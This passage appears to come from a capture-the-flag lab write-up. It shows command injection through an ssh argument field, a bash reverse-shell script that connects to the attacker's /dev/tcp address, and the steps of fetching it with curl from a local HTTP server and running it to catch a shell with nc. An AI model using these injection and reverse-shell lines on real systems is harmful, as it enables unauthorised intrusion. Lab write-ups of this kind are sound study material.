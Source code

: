 ```

ssh -i [key] 0xdf;{ping,-c,1,10.10.14.6};#@localhost

```

Which expands to:

```

ssh -i [key] 0xdf;ping -c 1 10.10.14.6;#@localhost

```

### Shell

Java applications can be very tricky about piping and special characters in processes, so I’ll go the simple route of writing a Bash script to disk and then running it. I’ll create a reverse shell script locally called `rev.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

I’ll switch my requests over to Burp Repeater for quicker sending. I’ll use `curl` to fetch `rev.sh` from my server:

![image-20240227110456686](/img/image-20240227110456686.png)

It works:

```

oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.230 - - [27/Feb/2024 11:05:08] "GET /rev.sh HTTP/1.1" 200 -

```

But there’s an error in the response:

![image-20240227110642749](/img/image-20240227110642749.png)

If I move to `/tmp/rev.sh`, it seems to work:

![image-20240227110742338](/img/image-20240227110742338.png)

I’ll submit another request to run `bash /tmp/rev.sh`:

![image-20240227110809092](/img/image-20240227110809092.png)

The request just hangs, but at my listening `nc`, there’s a shell:
